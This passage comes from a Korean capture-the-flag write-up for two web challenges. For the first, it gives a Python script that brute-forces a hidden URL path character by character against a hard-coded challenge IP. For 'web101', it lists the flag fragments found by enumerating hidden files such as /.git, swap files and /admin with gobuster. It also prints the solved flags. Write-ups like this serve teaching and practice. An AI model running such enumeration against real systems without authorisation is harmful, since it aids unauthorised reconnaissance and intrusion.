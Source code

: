 즉, 앞뒤로 플래그를 합쳐주면 된다.         

## Exploit Code     

```python 
import requests 
url = "http://3.34.190.217:24915"

real_url = f"{url}/h/s/p/a/c/e/"
for i in range(50): 
    for j in range(32, 128):
        c = chr(j)
        r= requests.get(real_url + c)
        if c in ["#", ".", "?"]: 
            continue 
        if r.status_code == 200:
            real_url += (c + "/")
            print(real_url)
```

## FLAG    
hspace{5afcf1de45c12f58dd0cfb2cfdfa22e6_cab2038942053898e0e6486cebfd368a}      
         
<a id="web101"></a>          
                  
## 4. web101    
     
이 문제도 앞과 유사하게 gobuster를 활용하여 파일들에 접근하여 FLAG 단서들을 찾는 문제였다. 

## Exploit Code
     
```txt
# /
# Part 1 
# hspace{D0

# /.git
# Part 2
# Acutally, it's not git repository.
# But the flag part2 is : n7_uuuuuu

# /flag.txt
# Part 3
# Wow, you tried flag.txt
# great :)
# Flag part 4 : rBu573r_i 

# /.index.php.swp
# Part 4
# Haha you find it.
# Also, it's not real swap file
# Here is your 3rd part of flag
# uuse_D1

# /admin
# Part 5
# n_R34lCTF_PL

# /robots.txt
# Part 6
# User-agent: *
# Allow: *
# Okay, the flag part6 is LLLLlllzzzz}
```